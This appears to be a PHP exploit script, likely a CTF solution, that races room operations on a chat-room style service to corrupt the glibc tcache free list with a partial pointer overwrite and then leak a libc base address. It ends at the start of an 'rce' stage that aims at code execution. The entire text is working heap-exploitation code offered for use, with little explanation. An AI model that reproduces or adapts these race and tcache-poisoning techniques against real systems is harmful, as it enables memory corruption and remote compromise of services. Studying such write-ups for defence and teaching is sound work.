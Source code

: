 ```php
/* Target tcache state
 * user1 -> victim -> user2 -> NULL
 *
 * We can allocated user1, race victim and allocate so user2 is where we want
 */
libc:
[$t1, $t2] = [$ta, $tb];

printf("[*] Create rooms\n");
$idx1 = room_new($t1)("room1");
$idx2 = room_new($t1)("room2");
$idx3 = room_new($t1)("room3");
printf("[%d, %d, %d]\n", $idx1, $idx2, $idx3);

room_enter($t1, $idx2)(str_repeat("1", 0x18));
room_enter($t1, $idx3)(str_repeat("2", 0x18));

printf("[*] Prepare race\n");
$f = room_enter($t2, $idx1);

// tcache 0x00007ffff00008d0
// user1  0x00007ffff0000c40 
// victim 0x00007ffff0000b20
// user2  0x00007ffff0000c70

printf("[*] Delete rooms\n");
room_del($t1)($idx3); // 0x20: user2 -> NULL
room_del($t1)($idx1); // 0x20: victim -> user2 -> NULL
room_del($t1)($idx2); // 0x20: user1 -> victim -> user2 -> NULL

printf("[*] Recreate room\n");
$idx4 = room_new($t1)("room4");
assert($idx1 === $idx4);
room_enter($t1, $idx4)(str_repeat("3", 0x18));

printf("[*] Corrupt tcache list\n");
$f("\x90\x08"); // partial overwrite

printf("[*] Leak libc\n");
room_enter($t1, $idx4)(str_repeat("4", 0x18));
$f = room_enter($t1, $idx4);

$room = room_show($t2, $idx4, 3);
$user = $room->users[2];
assert(6 === strlen($user));

$leak = str_pad($user, 8, "\x00");
$libc = unpack("Q", $leak)[1] - MAIN_ARENA;
printf("[+] libc: %X\n", $libc);
printf("\n");

assert(0 === ($libc >> 48));
assert(0 === ($libc & 0xFFF));

////////////////////////////////////////////////////////////////////////////////

rce:
[$t1, $t2] = [$tc, $td];

printf("[*] Create rooms\n");
$idx1 = room_new($t1)("room1");
$idx2 = room_new($t1)("room2");
$idx3 = room_new($t1)("room3");
```